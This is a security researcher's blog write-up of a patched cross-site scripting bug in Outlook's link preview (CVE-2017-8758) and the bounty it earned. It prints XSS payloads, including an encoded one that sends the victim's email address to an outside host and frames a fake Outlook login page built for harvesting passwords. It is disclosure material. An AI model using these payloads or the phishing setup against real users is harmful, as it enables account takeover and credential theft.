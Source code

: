 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and for the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping the 1080p, longer, and uncensored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3 How I Found The Bug

1. The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. These domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.

2. The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.


3. So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4. I used following payload as description/body field and it worked for me:

```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5. To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6. As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.

### 4. Technical Details of The PoC

1. As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2. It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3. The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. Note: I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```css
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100$">')"
```

4. That one was breaking, so I used the following as the final encoded payload (it's different from the PoC video, I guess I made a typo above).

```html
"><img src="x" onerror="document.write(document.write(eval(atob('Ij48aW1nIHNyYyA9IngiIG9uZXJyb3I9ImRvY3VtZW50LndyaXRlKCc8aWZyYW1lIHNyYz0iaHR0cHM6Ly9jb2sua2ltLz9lbWFpbD0nK2RvY3VtZW50LnRpdGxlKyciIHN0eWxlPSJib3JkZXI6IDA7IHBvc2l0aW9uOmZpeGVkOyB0b3A6MDsgbGVmdDowOyByaWdodDowOyBib3R0b206MDsgd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCQiPicpIg==')))" >
```

5. My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked if I would be attending Blackhat that year so we could meet in person. Unfortunately, I couldn't go due to a lack of a visa and funds. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

For a year, I continued to report similar issues under my name and my nickname (([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), a movie character).

In 2018, I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/) list. I was also invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the chance to meet some engineers and visit the Microsoft headquarters in Seattle.
